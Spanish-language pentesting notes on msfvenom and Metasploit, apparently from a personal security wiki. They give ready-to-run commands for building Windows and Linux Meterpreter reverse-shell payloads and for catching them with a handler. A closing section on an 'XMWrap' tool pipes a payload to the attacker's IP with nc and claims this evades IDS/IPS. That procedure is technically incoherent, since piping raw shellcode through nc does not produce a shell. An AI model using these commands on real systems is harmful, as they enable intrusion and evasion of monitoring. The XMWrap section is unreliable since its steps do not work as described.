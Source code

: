 
# Msfvenom

> **Msfvenom** es una herramienta de [Metasploit](../../Herramientas/Metasploit) que permite generar y personalizar [Payloads](Payload.md) para exploits.

## Instalación

```bash
sudo apt update && sudo apt install metasploit-framework
```

## Uso básico

Generar un payload para una shell inversa en Windows:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > shell.exe
```

Generar un payload para Linux en formato ELF:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf > shell.elf
```

---

# Metasploit

>**Metasploit** es un framework de pentesting que permite la explotación de vulnerabilidades, gestión de sesiones y generación de payloads.

## Instalación

```bash
sudo apt update && sudo apt install metasploit-framework
```

## Uso básico

Iniciar Metasploit (recomendado para primera vez):

```bash
msfdb run
```

Iniciar Metasploit:

```bash
msfconsole
```

Buscar un exploit:

```bash
search exploit_name
```

Cargar un exploit:

```bash
use exploit/path/to/exploit
```

Configurar opciones del exploit:

```bash
set RHOST 192.168.1.10
set LHOST 192.168.1.100
```

Ejecutar el exploit:

```bash
exploit
```

---

## Uso en relación a Payloads

Metasploit permite configurar y ejecutar payloads generados con **msfvenom**. Un ejemplo de ejecución con Meterpreter:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

Con esto, cuando la víctima ejecute el payload generado con **msfvenom**, se abrirá una sesión **Meterpreter** en Metasploit.

---

# XMWrap y su uso con Netcat

### ¿Qué es XMWrap?

> **XMWrap** es una utilidad que permite encapsular flujos de datos en **XML**, facilitando la transmisión de información estructurada entre procesos o redes.

En ciberseguridad, **XMWrap** se puede utilizar para ofuscar la comunicación de shells interactivas, dificultando su detección por sistemas de monitoreo.

---

## Uso de XMWrap con Netcat para recibir un payload de shell interactiva

Podemos utilizar **XMWrap** junto con **Netcat** para recibir una shell remota ofuscada en XML y decodificarla en el destino. A continuación, se muestra un ejemplo práctico:

### 1. Generar el payload con msfvenom

Para generar un **payload de shell inversa en formato RAW**, utilizamos **msfvenom**:

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw > shell.raw
```

> **Explicación:**
> 
> - `-p linux/x64/shell_reverse_tcp` → Payload de shell inversa para Linux (64 bits).
>     
> - `LHOST=192.168.1.100` → IP del atacante.
>     
> - `LPORT=4444` → Puerto en el que recibiremos la conexión.
>     
> - `-f raw` → Formato sin codificar (RAW) para encapsularlo con XMWrap.
>

### 2. Enviar la shell con XMWrap

En la máquina víctima, ejecutamos:

```
cat shell.raw | xmwrap | nc 192.168.1.100 4444
```

> **Explicación:**
> 
> - `cat shell.raw` → Lee el payload generado.
>     
> - `xmwrap` → Encapsula los datos en formato XML.
>     
> - `nc 192.168.1.100 4444` → Envía la salida a la IP del atacante por el puerto 4444 con **Netcat**.
>     

---

### 3. Recibir la shell en la máquina atacante

Para recibir la conexión, usamos **Netcat** y desempaquetamos la información con **XMWrap**:

```
nc -lvp 4444 | xmunwrap
```

> **Explicación:**
> 
> - `nc -lvp 4444` → Escucha en el puerto 4444 en modo detallado (`-v` para verbose y `-p` para puerto).
>     
> - `| xmunwrap` → Decodifica la salida de **XMWrap**, obteniendo la shell interactiva limpia.
>     

Con esto, logramos obtener una **shell inversa interactiva**, evitando detección por IDS/IPS que analicen patrones tradicionales de tráfico de Netcat.

---
